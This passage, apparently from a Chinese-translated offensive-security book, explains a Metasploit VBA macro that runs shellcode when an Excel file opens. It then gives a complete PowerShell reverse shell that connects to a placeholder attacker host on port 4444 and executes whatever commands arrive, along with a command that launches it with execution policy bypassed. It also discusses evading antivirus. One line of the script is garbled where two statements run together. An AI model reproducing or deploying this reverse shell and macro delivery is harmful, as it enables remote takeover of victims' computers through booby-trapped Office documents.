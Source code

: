 ![](./Chap2/5.ExcelVBAPayload.png)

如果我们检查生成的代码，我们知道它执行以下操作:
- 通过调用过程Workbook_Open（在上图中不可见）打开文档时启动攻击负载;
- 定义一个包含执行反向连接和代码执行的实际代码的数组。它在x86汇编中，因此独立于所使用的语言（VBA，PowerShell等）;
- 分配一些可执行内存，然后shell代码会被复制并执行。

Metasploit几乎总是遵循这种模式来生成其有效载荷，无论使用何种语言。这使得防病毒解决方案能够标记此工具生成的任何内容变得微不足道。对隐身来说完全够用了。

我们可以轻松地添加加密函数来加密保存shellcode的变量，但让我们尝试一种全新的方法来减少障碍。

#### 2)PowerShell救援

PowerShell是Windows上最强大的脚本语言之一。它已迅速成为管理员最信任的工具 - 同样也是黑客最心爱的情妇。在这个网页上查看一些非常好的PS工具。

遵循与以前相同的模式，我们希望在PowerShell中生成反向shell，然后将其嵌入到Office文档中。我们从PS脚本开始。
```
#Open a socket connection
$client = New-Object System.Net.Sockets.TCPClient("FGUN_IP",4444);
$stream = $client.GetStream();

#Send shell prompt

$greeting = "PS " + (pwd).Path + "> "
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting)
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};

#Wait for response, execute whatever’s coming, then loop back

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path +"> ";
    $sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```

为了确保脚本正常工作，我们使用以下命令在普通的Windows机器上执行它：
`C:\examples> Powershell -Exec Bypass .\reverse.ps1 `

